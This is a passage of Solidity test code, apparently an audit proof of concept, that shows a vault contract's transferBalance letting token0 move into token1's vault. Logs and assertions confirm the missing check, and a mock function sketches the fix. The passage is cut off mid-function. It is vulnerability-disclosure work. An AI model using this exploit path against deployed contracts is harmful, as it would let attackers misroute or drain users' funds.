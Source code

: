 ```solidity
            token0Vault,
            token1Vault
        );
        assertEq(sameToken, false, "Vaults should be for different tokens");

        // Try to transfer tokens between incompatible vaults
        uint256 transferAmount = 1e18;
        console2.log("\n--- ATTEMPTING CROSS-TOKEN TRANSFER ---");
        console2.log("Transfer amount:", transferAmount);

        // This should ideally fail but doesn't due to the vulnerability
        v.transferBalance(token0Vault, token1Vault, 0x3, transferAmount);

        // Check balances after transfer
        uint256 token0AfterBalance = ERC20(tokens[0]).balanceOf(token0Vault);
        uint256 token1AfterBalance = ERC20(tokens[1]).balanceOf(token1Vault);

        console2.log(
            "Token0 Balance in Token0 Vault after transfer:",
            token0AfterBalance
        );
        console2.log(
            "Token1 Balance in Token1 Vault after transfer:",
            token1AfterBalance
        );

        // Verify token0 balance decreased
        assertLt(
            token0AfterBalance,
            token0InitialBalance,
            "Token0 balance should decrease"
        );

        // Check if token0 was deposited in token1's vault
        uint256 token0InToken1Vault = ERC20(tokens[0]).balanceOf(token1Vault);
        console2.log(
            "Token0 Balance in Token1 Vault (should be > 0):",
            token0InToken1Vault
        );

        // This is the key assertion showing the vulnerability
        assertGt(
            token0InToken1Vault,
            0,
            "Token0 should be deposited in Token1's vault"
        );
    }

    /**
     * @notice Mock function that shows how validation should be implemented
     * @param vault1 First vault address
     * @param vault2 Second vault address
     * @return bool True if vaults are for the same token, false otherwise
     */
    function mockValidateVaultsForSameToken(
        address vault1,
        address vault2
    ) internal view returns (bool) {
        // Get the token associated with each vault
        address token1 = getVaultToken(vault1);
        address token2 = getVaultToken(vault2);

        // If the tokens match, the vaults are for the same token
```